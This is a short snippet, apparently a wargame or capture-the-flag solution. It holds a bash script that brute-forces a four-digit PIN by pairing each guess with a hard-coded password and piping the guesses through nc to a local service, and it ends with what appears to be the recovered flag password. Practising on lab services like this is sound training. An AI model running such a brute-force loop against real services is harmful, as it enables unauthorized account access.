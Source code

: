 #!/bin/bash  
password="gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8"  
  
for i in {0000..9999};  
       do  
               echo $password $i  
       done

\/tmp/bruteforce2.sh | nc localhost 30002 | grep -v Wrong

iCi86ttT4KSNe1armKiwbQNmB3YJP3q4
